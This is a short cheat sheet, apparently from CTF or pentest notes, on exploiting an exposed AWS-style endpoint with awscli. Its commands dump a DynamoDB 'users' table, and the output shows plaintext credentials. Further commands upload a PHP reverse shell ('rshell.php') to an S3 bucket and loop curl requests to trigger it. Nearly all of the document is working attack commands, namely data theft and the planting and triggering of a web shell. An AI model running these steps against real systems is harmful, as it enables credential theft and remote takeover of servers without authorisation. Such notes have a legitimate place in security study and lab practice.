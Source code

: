 # aws

> amazon web services

    apt install awscli

    # setup with random info - doesn't matter
    $ aws configure
    AWS Access Key ID [None]: toto
    AWS Secret Access Key [None]: tata
    Default region name [None]: us-east-1
    Default output format [None]: text

    # list table names of an endpoint's database
    $ aws dynamodb list-tables --endpoint-url http://s3.<web.site>
    TABLENAMES      users

    # get endpoint's table content
    $ aws dynamodb scan --table-name users --endpoint-url http://s3.<web.site>
    None    3       3
    PASSWORD        god
    USERNAME        root
    PASSWORD        unlockcloud
    USERNAME        admin

    # look into a bucket
    aws --endpoint-url http://s3.<web.site>/ s3 ls s3://static/

    # push reverse shell into a bucket
    aws --endpoint-url http://s3.<web.site>/ s3 cp rshell.php s3://static/pwn.php

    # try to trigger it (assuming auto-destroy policy of few second)
    while 1:
        # note the different subdomain of this content delivery
        curl -vvv http://<web.site>/pwn.php --resolve <web.site>:80:<ip>:80
        sleep 1
